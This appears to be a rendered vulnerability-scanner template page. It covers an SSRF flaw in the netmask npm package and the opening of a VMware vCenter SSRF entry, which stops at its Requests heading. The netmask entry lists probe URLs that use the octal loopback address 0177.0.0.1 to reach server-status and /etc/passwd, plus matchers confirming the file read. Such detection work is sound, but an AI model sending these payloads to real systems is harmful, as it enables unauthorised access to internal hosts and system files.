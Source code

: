## Description

- Netmask NPM Package is susceptible to server-side request forgery because of improper input validation of octal strings in netmask npm package. This allows unauthenticated remote attackers to perform indeterminate SSRF, remote file inclusion, and local file inclusion attacks on many of the dependent packages. A remote unauthenticated attacker can bypass packages relying on netmask to filter IPs and reach critical VPN or LAN hosts.
- severity - critical
- tags - cve,cve2021,npm,netmask,ssrf,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/?url=http://0177.0.0.1/server-status
- {{BaseURL}}/?host=http://0177.0.0.1/server-status
- {{BaseURL}}/?file=http://0177.0.0.1/etc/passwd

### Matchers

**Type - word**

- part - body
- words
  1. Apache Server Status
  2. Server Version
- condition - and

**Type - regex**

- regex
  1. root:.\*:0:0:

---

# VMware vCenter Unauthenticated SSRF

## Description

- The vSphere Client (HTML5) contains an SSRF (Server Side Request Forgery) vulnerability due to improper validation of URLs in a vCenter Server plugin. A malicious actor with network access to port 443 may exploit this issue by sending a POST request to vCenter Server plugin leading to information disclosure. This affects VMware vCenter Server (7.x before 7.0 U1c, 6.7 before 6.7 U3l and 6.5 before 6.5 U3n) and VMware Cloud Foundation (4.x before 4.2 and 3.x before 3.10.1.2).
- severity - medium
- tags - cve,cve2021,vmware,ssrf,vcenter,oast,kev

## Requests
